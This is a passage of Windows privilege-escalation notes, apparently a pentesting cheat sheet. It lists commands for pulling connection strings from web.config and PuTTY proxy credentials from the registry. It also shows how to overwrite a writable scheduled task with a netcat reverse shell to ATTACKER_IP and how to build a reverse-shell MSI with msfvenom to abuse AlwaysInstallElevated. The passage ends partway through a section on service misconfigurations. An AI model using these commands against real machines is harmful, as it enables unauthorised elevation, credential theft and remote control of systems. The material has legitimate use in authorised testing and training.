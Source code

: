 Search for connection strings:
```cmd
type web.config | findstr connectionString
```

#### PuTTY Stored Sessions
PuTTY stores session information in the registry, including proxy credentials:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Quick Wins

#### Scheduled Tasks
Scheduled tasks might run with higher privileges. To investigate:
```cmd
schtasks /query /tn vulntask /fo list /v
```
Check `Task To Run` and `Run As User`. If the executable is writable:
```cmd
icacls c:\tasks\schtask.bat
```
Insert a reverse shell:
```cmd
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
Start listener:
```bash
nc -lvp 4444
```
Run task manually:
```cmd
schtasks /run /tn vulntask
```

#### AlwaysInstallElevated
Allows .msi files to run with elevated privileges when two registry keys are set:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Create malicious MSI:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f msi -o malicious.msi
```
Execute:
```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Abusing Server Misconfigurations

#### Understanding Windows Services
Services run executables under specific user accounts. Check config:
```cmd
sc qc SERVICE_NAME
```
Executable: `BINARY_PATH_NAME`
Account: `SERVICE_START_NAME`

